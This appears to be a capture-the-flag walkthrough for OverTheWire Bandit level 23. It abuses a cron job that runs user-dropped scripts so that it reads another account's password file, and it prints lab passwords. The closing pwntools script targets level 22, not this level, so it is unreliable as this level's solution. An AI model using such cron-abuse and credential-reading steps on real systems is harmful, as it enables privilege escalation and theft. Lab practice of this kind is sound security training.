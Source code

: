 # Bandit Level 23

```bash
Username: bandit23
Password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
Server:   bandit.labs.overthewire.org
Port:     2220
```

First we need to connect:
```bash
ssh bandit23@bandit.labs.overthewire.org -p2220
```

Lets take a look at the cronjob:
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
  echo "Handling $i"
  timeout -s 9 60 ./$i
  rm -f ./$i
    fi
done
```

We need to create a script which extracts the password for bandit24.

We should save it at ```/var/spool/bandit24``` and give it execute permissions.

After that, we just need to wait up to one minute and get our result.
```bash
cd /var/spool
bandit23@bandit:/var/spool$ mkdir /tmp/roee
bandit23@bandit:/var/spool$ chmod 777 /tmp/roee
bandit23@bandit:/var/spool$ printf "cat /etc/bandit_pass/bandit24 > /tmp/roee/bandit24pass" > ./bandit24/my_script
bandit23@bandit:/var/spool$ chmod +x ./bandit24/my_script
bandit23@bandit:/var/spool$ ls ./bandit24/my_script
./bandit24/my_script
bandit23@bandit:/var/spool$ date
Wed May 15 10:36:54 CEST 2019
bandit23@bandit:/var/spool$ date
Wed May 15 10:37:03 CEST 2019
bandit23@bandit:/var/spool$ ls ./bandit24/my_script
ls: cannot access './bandit24/my_script': No such file or directory
bandit23@bandit:/var/spool$ ls -la /tmp/roee
total 1712
drwxrwxrwx     2 bandit23 root        4096 May 15 10:37 .
drwxrws-wt 37684 root     root     1740800 May 15 10:37 ..
-rw-r--r--     1 bandit24 bandit24      33 May 15 10:37 bandit24pass
bandit23@bandit:/var/spool$ cat /tmp/roee/bandit24pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We got the password for the next level: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

**A single script is:**
```python
#!/usr/bin/env python

from pwn import *


def main():
  shell = ssh(host='bandit.labs.overthewire.org',
            user='bandit22',
            password='Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI',
            port=2220
       )

  
  p = shell['cat /etc/cron.d/cronjob_bandit23']

  bash_script = p.split('\n')[1].split()[-3]
  log.info('Found bash script: {}'.format(bash_script))

  p = shell['cat {}'.format(bash_script)]

  hash_cmd = p.split('\n')[3].split('$(')[1][:-1]
  log.info('Found hash command file: {}'.format(hash_cmd))

  p = shell['cat /tmp/$({})'.format(hash_cmd.replace('$myname', 'bandit23'))]

  print p

if __name__ == "__main__":
  main()

```